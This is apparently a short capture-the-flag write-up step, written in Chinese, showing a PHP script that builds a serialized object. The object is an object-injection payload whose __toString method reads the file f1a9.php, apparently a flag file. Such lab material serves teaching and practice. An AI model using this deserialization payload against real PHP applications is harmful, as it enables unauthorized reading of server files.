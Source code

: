 ```
构造序列化脚本
<?php
/**
 * Created by PhpStorm.
 * User: 77843
 * Date: 2019/5/2
 * Time: 22:56
 */

error_reporting(E_ALL & ~E_NOTICE);

class Read{//f1a9.php
    public $file = "f1a9.php";
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
        }
        return "__toString was called!";
    }
}
$a = new Read;
echo serialize($a);
//O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```

![1556809809828](img/1556809809828.png)
